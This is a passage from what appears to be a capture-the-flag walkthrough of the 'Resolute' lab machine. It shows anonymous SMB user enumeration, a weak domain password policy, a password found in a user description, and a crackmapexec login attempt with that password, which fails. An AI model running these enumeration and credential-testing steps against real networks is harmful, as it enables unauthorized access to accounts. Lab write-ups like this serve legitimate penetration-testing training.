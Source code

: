 ```sh
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]
[+] Getting detailed info for group Contractors (RID: 1103)
	Group Name:	Contractors
	Description:	Contractors
	Group Attribute:7
	Num Members:1
[+] Password Info for Domain: MEGABANK
	[+] Minimum password length: 7
	[+] Password history length: 24
	[+] Maximum password age: Not Set
	[+] Password Complexity Flags: 000000
		[+] Domain Refuse Password Change: 0
		[+] Domain Password Store Cleartext: 0
		[+] Domain Password Lockout Admins: 0
		[+] Domain Password No Clear Change: 0
		[+] Domain Password No Anon Change: 0
		[+] Domain Password Complex: 0
	[+] Minimum password age: 1 day 4 minutes
	[+] Reset Account Lockout Counter: 30 minutes
	[+] Locked Account Duration: 30 minutes
	[+] Account Lockout Threshold: None
	[+] Forced Log off Time: Not Set



# list users
crackmapexec smb resolute -u '' -p '' --users
# ---- snip ----
SMB         resolute        445    RESOLUTE         megabank.local\marko                          Account created. Password set to Welcome123!
# ---- snip ----
```

## access

The user description for Marko shows his password is set to `Welcome123!`. Let's see if we can use his #credentials to log in!

```sh
❯ cme smb resolute -u 'marko' -p 'Welcome123!'
SMB         resolute        445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         resolute        445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE
```
